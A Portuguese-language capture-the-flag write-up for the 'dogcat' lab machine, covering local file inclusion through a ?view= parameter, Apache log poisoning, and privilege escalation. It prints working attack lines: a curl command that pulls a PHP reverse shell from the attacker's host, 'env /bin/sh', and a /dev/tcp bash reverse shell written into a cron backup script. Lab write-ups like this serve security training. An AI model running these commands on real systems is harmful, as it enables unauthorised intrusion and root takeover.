










# _**dogcat**_


## _**Enumeração**_
Primeiro, vamos começar com um scan de rede com a ferramenta <mark>Nmap</mak>
> ```bash
> nmap -p- -sS T3 -v [ip_address]
> nmap -p 22,80 -sV -O [ip_address]
> ```


Duas portas abertas descobertas, vamos investigar o website  
Vamos tentar primeiro descobrir alguns diretórios web com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]/ -w /path/to/wordlist
> ```


Temos o seguinte formato de URL: http://[ip_address]/<mark>?view=</mark>  
Este final é bem suspeito, pois dali, podemos requisitar outros arquivos além de _dog_ ou _cat_  
Utilizando a ferramenta <mark>ffuf</mark>, podemos tentar um **brute force** para tentarmos descobrir um **vetor de LFI**  
> ```bash
> ffuf -w /path/to/wordlist.txt:FUZZ 'http://[ip_address]:80/?view=FUZZ -ac
> ```


Parece que podemos tentar um ataque LFI  
Primeiro, tentamos alguns _path traversals_ como:
* ?file=php://filter/convert.base64-encode/resource=/etc/passwd
* ?view=php://filter/convert.base64-encode/resource=/etc/passwd

Mas não obtemos nenhum resultado  
Após algumas outras tentativas, outras informações foram descobertas:
* Estamos no diretório /var/www/html/
* Estamos acessando o arquivo _index.php_ e tentando incluir outro arquivo
* A extensão .php é adicionada ao valor do parâmetro **dogs**; logo _dogs.php_

Isso nos diz que, estamos limitados a apenas ler arquivos _.php_, isto inclui _dog_ e _cat_  
Tentando **?view=dog/../index** para o arquivo **index.php**, temos uma mensagem da função _containsSTR()_  
Se tentarmos aplicar um filtro, como <mark>?view=php://filter/read=convert.base64-encode/resource=</mark>, podemos ter um retorno promissor  



Podemos ver que, a função **containsStr()** é usada para verificar a presença de _dog_ ou _cat_ no parâmetro de visualização  
Ela permite outras extensões de arquivo se as declararmos na URL como parâmetro ext  
Se nenhum parâmetro ext for fornecido, o padrão é _.php_  

Pesquisand sobre o diretório do Apahce e seus arquivos padrão, podemos tentar um ataque **Log Poisoning** através do arquivo _/var/log/Apache2/access.log_  

Abrindo o <mark>BurpSuite</mark>, capturando um pacote e alterando seu conteúdo, temos:



Conseguimos comando para qual diretório estamos!  
Podemos tentar obter um **Reverse Shell**  

Primeiro, baixamos o código de [thub.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](pentestmonkey)  
Alteramos para nosso endereço IP e a porta de nossa preferência  
Em seguida, servios com o comando: ```python3 -m http.server [port_number]```  

No burp, alteramos o parâmetro GET para: **GET /?view=./dog/../../../../../var/log/apache2/access.log&ext=&cmd=curl+-o+php_shell.php+[atk_machine_ip_address]/[filename].php HTTP/1.1**  



Acessando o link com o nome de nosso arquivo, temos **reverse shell**  



Para escalarmos privilégio, vamos começar com alguns comandos  
Já no primeiro, obtemos uma informação interessante  



Procurando mais sobre em [https://gtfobins.org/gtfobins/env/](GFTOBins), temos: _Essa função pode ser executada por qualquer usuário sem privilégios de administrador._  
> ```bash
> env /bin/sh
> ```


Vamos utilizar o comando ```find``` para poder encontrar todas as flags do desafio  
Encontramos 3 das 4  
Para a última, vamos utilizar LinPEAS  
Executando, encontramos um diretório em _/opt_ chamado **backups**  
Verificando, encontramos um arquivo _.sh_ que contém o trecho:
> ```
> #!/bin/bash
> tar cf /root/container/backup/backup.tar /root/container
> ```
Parece que ele está compactando tudo de **/root/container/backups/backup.tar** para **/root/container/**  
Procurando, não encontramos nada  
Podemos alterar o arquivo para obtermos um novo _reverse shell_  
> ```
> cd /opt/backups
> echo '#!/bin/bash' > backup.sh
> echo 'bash -i >& /dev/tcp/[atk_machine_ip_address]/[port] 0>&1' >>backup.sh
> cd /opt/backups
> ```
Esperamos o comando ser executado para obtermos o novo _shell_  
Obtemos a última flag!
